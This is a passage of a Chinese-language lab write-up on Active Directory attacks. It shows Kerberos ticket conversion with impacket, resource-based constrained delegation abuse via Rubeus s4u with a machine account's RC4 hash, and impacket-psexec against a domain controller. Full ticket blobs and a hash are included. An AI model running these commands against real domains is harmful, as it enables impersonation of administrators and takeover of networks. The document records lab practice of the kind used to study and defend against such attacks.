WmOomLYpqi/v8QmVU7W8o71U3+AX5CGgZb6WmC3N8QTrUQKyinhQgy5eG2haD03l21JCJO1avslc4UWzT/bXpmU6aGVMD1HfMEvT0kMUrqKI2BuKZVu+PNURdv5enn5hG2rklN4kjSev3pmaq20lKh9pOfBF9+Ll4aQ17R2wcqfpI9TLp+2r8LYgwUsV6rwT+VKQyRzPZDiX6NJt3Ryd3J4H5sItgWLVg6Dt+c/0FhBD2rXbhdKL7EHbwEble9O1uVrhLjsRV3+afqkM++k+c/c7m5UGvpwxkFGyLJRyXUrdlBtn9uCPG0LVYkihwAdBzm4E01GUow4ZdrWo2FCpEmTUkHARcymI+UQfDBVYgQ5K3XX6ZsKIf6OZ8Xgu9YQlHClM/ZBcDtkc+bFYbRBnZIjAZ45NjgIwNOIQM7glAShenEFd4MfItcVFjVAw+H8OYwgGZSSvdXLd7/9hBn7KMssfZLQV8M3JovKeg+z2GYp0Djy7ucNWwbSW338sR02MP7Apkhk3rv/yHRD01C2mj4DCH3PW0AUacyehUYpzlj5WWDogNl/1+GKsdaoBLptLJ1r9+K1ZuHIX5w5SJemvTgmoyOGjW1ZvXpskzydT9Np9VaNi+uiNs5U7rVIu7/vlElNKHkIFLSdE/d1iqSywMslVtraFmaOOrRMqPCRo9L6n+4OGDbmNOazwvrUh7ug8sQOLNZmt6Brl5a+loXqP5o7EorbcVbln/0r33StBSyLKYPHlFbxfQm8ccBYFJRDWrIBXsgirri3aTfTdF/NDwfDVzWyTiO4NwPEEPiWChYpG8s8l/yIQ6fqmjyEZ1Xi2MpJQqfPdvUEmbRv3lOnr4WyiwUiqOB1zCB1KADAgEAooHMBIHJfYHGMIHDoIHAMIG9MIG6oBswGaADAgERoRIEEGq+Upi69XRHv/o7x5QguAqhEBsOQU9TRUxVQVVUTy5DT02iFjAUoAMCAQqhDTALGwlTVkNfQURNMDGjBwMFAEClAAClERgPMjAyNTA3MTEwNjQyMzhaphEYDzIwMjUwNzExMTY0MjM4WqcRGA8yMDI1MDcxODA2NDIzOFqoEBsOQU9TRUxVQVVUTy5DT02pHTAboAMCAQKhFDASGwRjaWZzGwpBU0xTUlZBRDA1 > ticket.kirbi.b64


cat ticket.kirbi.b64 |tr -d ' ' |tr -d '
' |base64 -d >ticket.kirbi
```

```
┌──(root㉿kali)-[/home/kali/red/temp]
└─# echo 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 > ticket.kirbi.b64
                                                                                                                                                                                                                                                                              
┌──(root㉿kali)-[/home/kali/red/temp]
└─# cat ticket.kirbi.b64 |tr -d ' ' |tr -d '
' |base64 -d >ticket.kirbi
                                                                                                                                                                                                                                                                              
┌──(root㉿kali)-[/home/kali/red/temp]
└─# impacket-ticketConverter ticket.kirbi ticket.ccache
Impacket v0.11.0 - Copyright 2023 Fortra

[*] converting kirbi to ccache...
[+] done


┌──(root㉿kali)-[/home/kali/red/temp]
└─# export KRB5CCNAME=ticket.ccache

```

这里导入票据后仍然不行，前面是无法请求到票据，现在即使获取到了票据也无法成功

可能由于我kali不能与域控时间同步，所以一直无法成功，最后我选择直接使用 IPC$共享管道进行访问（回头看，感觉是因为多层代理，vshell并不能实现，需要使用stowaway搭建多层代理才行）



使用Rubeus.exe查看，发现票据其实已经导入成功了的

```
C:\Users\hub>.\Rubeus.exe klist

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.2


Action: List Kerberos Tickets (Current User)

[*] Current LUID    : 0x115535

  UserName                 : hub
  Domain                   : ASLSRVFS02
  LogonId                  : 0x115535
  UserSID                  : S-1-5-21-3738990733-2195238930-2414615058-1000
  AuthenticationPackage    : NTLM
  LogonType                : RemoteInteractive
  LogonTime                : 7/10/2025 9:51:36 PM
  LogonServer              : ASLSRVFS02
  LogonServerDNSDomain     :
  UserPrincipalName        :

    [0] - 0x12 - aes256_cts_hmac_sha1
      Start/End/MaxRenew: 7/10/2025 11:42:38 PM ; 7/11/2025 9:42:38 AM ; 7/17/2025 11:42:38 PM
      Server Name       : cifs/ASLSRVAD05 @ AOSELUAUTO.COM
      Client Name       : SVC_ADM01 @ AOSELUAUTO.COM  #可以发现这里已经有管理员的票据了
      Flags             : name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable (40a50000)

```

使用其他用户打的话无法访问 `c$` 共享或使用 psexec 启动 cmd，因为我们需要本地管理员权限

这里如果直接使用本地管理员反而不行，这里应该做了限制，原本我试了好多次都不行（回过头看，感觉是因为票据导入的是新增的hub账号，求师傅指点一下）



最后使用新增的用户反而可以了（票据导入的hub账号，这里也是为什么hub账号可以）反正总之就是多试几次吧





使用impacket请求票据的后续

这里还有其他将票据导入等方法，但是可能由于我kali不能与域控时间同步，所以一直无法成功

```
impacket-psexec AOSELUAUTO.COM/SVC_ADM01@172.16.34.5 -k -no-pass
```

正常可以直接通过psexec直接获取shell

```
C:\users\Administrator\desktop>Rubeus.exe s4u /user:EVILCOMPUTER$ /rc4:3A37C6AC3AFBEEF7A8EB36A4481BDED4 /domain:aoseluauto.com /msdsspn:cifs/ASLSRVAD05 /impersonateuser:SVC_ADM01 /nowrap /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.2

[*] Action: S4U

[*] Using rc4_hmac hash: 3A37C6AC3AFBEEF7A8EB36A4481BDED4
[*] Building AS-REQ (w/ preauth) for: 'aoseluauto.com\EVILCOMPUTER$'
[*] Using domain controller: 172.16.34.5:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFyDCCBcSgAwIBBaEDAgEWooIE0jCCBM5hggTKMIIExqADAgEFoRAbDkFPU0VMVUFVVE8uQ09NoiMwIaADAgECoRowGBsGa3JidGd0Gw5hb3NlbHVhdXRvLmNvbaOCBIYwggSCoAMCARKhAwIBAqKCBHQEggRwrVpnEQTRcPwKEGTj4yiq2VU2FNbLvbQDI6UZiqsOrXJfls7bHIjGoq3t7Icr0oQZGWP1y5cH9TOhTc8ORrEJCqHLcACL0PqSZPHzH41LE5TZLE9F1B8nIJUNiulPEA7a44CypiPgwStXmPOoZ3ogtFtaeRyorxctv9JT+OqTQHDDPmiNQ4BATaiZD/L66iFeEYpQg2T3cmaVtaHRuKb7RDLSmjZEl9J7jV1djJ6puQGbM4Z5dTNa7gtA9sXeGravEM/ZYlI0CgrtdI+ycZr6CFaaaq+w6OVLnSMfZbOLyrroGq8W1XUkJLLVSzub++gZYhZPdpV0opIKGXEbEc5WLPqqwF7uu4Un5zcGWgBaYNVBNssz0SlPkuuBHqL8O+c/Xw5dkBhT14MmUuEkGjEuaZizpKnjkkoTnM30rOQFgoougrXg5YHTEW3PApkyvJ1cLqLzLGb3nai2fkhrENfVLAuMHb13DRF9J9YvVFK6EWgHp/tkGDs4ssd1mX25j9c+ysWLDlJBtmZa+GAiw3GoBM1FE3e/9XcomslY1kCPe0mQzChd7e5nDOEsDGuXMVLEeRBBpdKpc2ts2yH8UQe5StHm0UVg7p+qZRbjvxOjLLdnndszlbNrsrPaTOWJ0VKAlqbCzq/WAC0vlLpUJJU8PmMkQ2IXSC1jitgjCQCtXDzHo9GxpTvA1223zy0WKjH9oGNjydATVNlWxpHiW6FxwLi6cNUJHz4nUR8ojaE04kOE+oy8R+CBDKLuPgLvHczcSWNOjn2ub+QOyPd7uNTS7JeXTT/9Lxph/SJXgxXDAmcCdBaRt+qrQhUZ66J2bnJh01Ww1VPOUrP9K/J4tigPVYShf+Ec0LB27VvEEWjkVYwc+ja3aXeNosBOKHRKpZhKYWxEu6V5klHunlorEAeiEwvN8eBvH/1U5nHxS7XDOuMK7umljcZFNZwTwE3P+6ugT2YysxeVsqchYrN3ERA7cT8nDxxlcXbCFH3pBKPewfK58WUcFgk3AjN/u4cS0f5AkuyUu7UsBz32w/wZIZ+WWx3KfX7Z/uOicU8XxGzh7T1lLqbaoTWerFQGpkW/ZHx2I7zZzisOhVAv6ByvEEbSnp0LM9WsK7h4W5/scDy6r0/oCbIeNhdkrT0vPDKddAjal/Ac5ijsjQQdvx6wYHHM71fuKVwp0YT1e3M8BeG1j2RJtPLWsllBxL5G3ABTqsoRcDOOJ0C/XSqHMbV81x134B2OXKAFiAcm/yTIn+obY3oruTa9yiFVptNV9Z2y/WS9Tw9lDP8UkWW90dBZXZ7/zxJb4LKI9vIeJtWQHPRWURYriTll/4tSPuH7vdxPmRI5uGDMXZPKJ22GjkUKlDD5kreUztrVPRTxOsN5QNfx+6vuHClPJNKZOrb6nEKHVc6aoYCECH+I3mp3sewvqXINuukoXO3J67OaJGWNDj7gx1cr7dQbezbf+7rLX15R9amuAH6mtUxk41zDhbrAMY0pyqfVH2aSaM8DRSqAs0iIH/qjgeEwgd6gAwIBAKKB1gSB032B0DCBzaCByjCBxzCBxKAbMBmgAwIBF6ESBBBCqKpwfqZaa5ChsHi9ePVLoRAbDkFPU0VMVUFVVE8uQ09NohowGKADAgEBoREwDxsNRVZJTENPTVBVVEVSJKMHAwUAQOEAAKURGA8yMDI1MDcxMTAyMzMzNFqmERgPMjAyNTA3MTExMjMzMzRapxEYDzIwMjUwNzE4MDIzMzM0WqgQGw5BT1NFTFVBVVRPLkNPTakjMCGgAwIBAqEaMBgbBmtyYnRndBsOYW9zZWx1YXV0by5jb20=


[*] Action: S4U

[*] Building S4U2self request for: 'EVILCOMPUTER$@AOSELUAUTO.COM'
[*] Using domain controller: ASLSRVAD05.aoseluauto.com (172.16.34.5)
[*] Sending S4U2self request to 172.16.34.5:88
[+] S4U2self success!
[*] Got a TGS for 'SVC_ADM01' to 'EVILCOMPUTER$@AOSELUAUTO.COM'
[*] base64(ticket.kirbi):

      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

[*] Impersonating user 'SVC_ADM01' to target SPN 'cifs/ASLSRVAD05'
[*] Building S4U2proxy request for service: 'cifs/ASLSRVAD05'
[*] Using domain controller: ASLSRVAD05.aoseluauto.com (172.16.34.5)
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/ASLSRVAD05':
      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
[+] Ticket successfully imported!

C:\users\Administrator\desktop>dir \ASLSRVAD05\C$
The specified path is invalid.
```

也是前面那位的佬博客上学的<https://www.c1trus.top/>



## 总结

这次打靶，出现了很多实战中可能出现的情况，比如不出网，wd，远程密码获取lsass.dmp等

然后进一步明确了我内网信息收集的路线

1. dumphash
2. fscan
3. winlogin
4. rdp凭证获取

当然这也是打靶场学到的，前面这个路线主要是借鉴B神的，实战的话还要多翻配置文件，将弱口令记录下来，还有一些浏览器密码、远控客户端密码登
